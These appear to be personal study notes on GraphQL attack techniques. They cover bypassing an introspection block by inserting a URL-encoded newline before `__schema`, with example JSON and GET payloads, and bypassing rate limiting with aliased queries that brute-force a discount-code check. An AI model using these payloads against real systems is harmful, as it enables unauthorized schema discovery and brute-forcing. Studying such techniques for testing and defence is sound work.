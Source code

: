 ____

GraphQL -> Set instrospection query
GraphQL -> Save GraphQL queries to sitemap

![[Pasted image 20250124190634.png]]

____

When developers disable introspection, they could use a regex to exclude the `__schema` keyword in queries. You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.

```json
{ "query": "query{__schema {queryType{name}}}" }
```

Try a GET request, or a POST request with a content-type of `x-www-form-urlencoded`

```
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

![[Pasted image 20250124191855.png]]

Add `%0a` --> \n

![[Pasted image 20250124191926.png]]

![[Pasted image 20250124192136.png]]

____

 Bypassing rate limiting using aliases

```
# Request with aliased queries
query isValidDiscount($code: Int) {
  isvalidDiscount(code: $code) {
    valid
  }
  isValidDiscount2: isvalidDiscount(code: $code) {
    valid
  }
  isValidDiscount3: isvalidDiscount(code: $code) {
    valid
  }
}
```


